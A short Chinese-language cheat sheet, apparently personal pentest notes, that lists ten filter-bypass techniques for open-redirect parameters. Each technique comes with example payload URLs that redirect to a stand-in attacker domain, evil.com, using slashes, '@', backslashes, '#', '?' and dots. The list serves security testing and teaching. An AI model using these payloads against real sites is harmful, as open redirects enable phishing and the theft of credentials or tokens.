 ![image](images/06B79490B042469CBBAD6434ADF48E14clipboard.png)

# URL Bypass

```
1. 单斜线"/"绕过
https://www.landgrey.me/redirect.php?url=/www.evil.com
2. 缺少协议绕过
https://www.landgrey.me/redirect.php?url=//www.evil.com
3. 多斜线"/"前缀绕过
https://www.landgrey.me/redirect.php?url=///www.evil.com
https://www.landgrey.me/redirect.php?url=////www.evil.com
4. 利用"@"符号绕过
https://www.landgrey.me/redirect.php?url=https://www.landgrey.me@www.evil.com
5. 利用反斜线"\"绕过
https://www.landgrey.me/redirect.php?url=https://www.evil.com\www.landgrey.me
6. 利用"#"符号绕过
https://www.landgrey.me/redirect.php?url=https://www.evil.com#www.landgrey.me
7. 利用"?"号绕过
https://www.landgrey.me/redirect.php?url=https://www.evil.com?www.landgrey.me
8. 利用"\\"绕过
https://www.landgrey.me/redirect.php?url=https://www.evil.com\\www.landgrey.me
9. 利用"."绕过
https://www.landgrey.me/redirect.php?url=.evil           (可能会跳转到www.landgrey.me.evil域名)
https://www.landgrey.me/redirect.php?url=.evil.com       (可能会跳转到evil.com域名)
10.重复特殊字符绕过
https://www.landgrey.me/redirect.php?url=///www.evil.com//..
https://www.landgrey.me/redirect.php?url=////www.evil.com//..
```
